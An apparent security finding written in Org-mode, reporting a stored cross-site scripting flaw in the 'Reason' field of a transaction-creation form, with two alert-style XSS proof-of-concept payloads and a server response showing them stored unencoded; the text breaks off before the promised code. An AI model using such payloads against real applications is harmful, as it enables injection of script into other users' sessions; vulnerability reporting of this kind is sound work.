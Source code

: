 #+title: Stored XSS in transaction page
#+author: gabriel

On the transactions page there is a functionality to create another transactions, where one of the fields is injectable to html/js code.

It is possible to inject an XSS payload within the "REason" field of the "Receiver" field. THis will be stored in the database, and executed in the next page refresh.


* tests at creation form

First classical JS payload ->
#+begin_src sh
<script>alert("hello")</script>
#+end_src


Second JS payload ->
#+begin_src sh
<img src=x onerror="alert(document.domain)/">
#+end_src

*response ->*
#+begin_src sh
"id":49,
"senderId":"biel@mail.com",
"receiverId":"<b>hi</b>","dateTime":"11/11/2025",
"reason":"<script>alert(\"helloowlrd\")</script>",
"amount":1,
"reference":"1",
#+end_src

It is possible to see that there is a improper user input encode


Any user at applition can send malicious JS payloads to each other...

The ~DataTable~ library the responsible for carrying out this process, and this is the code ->

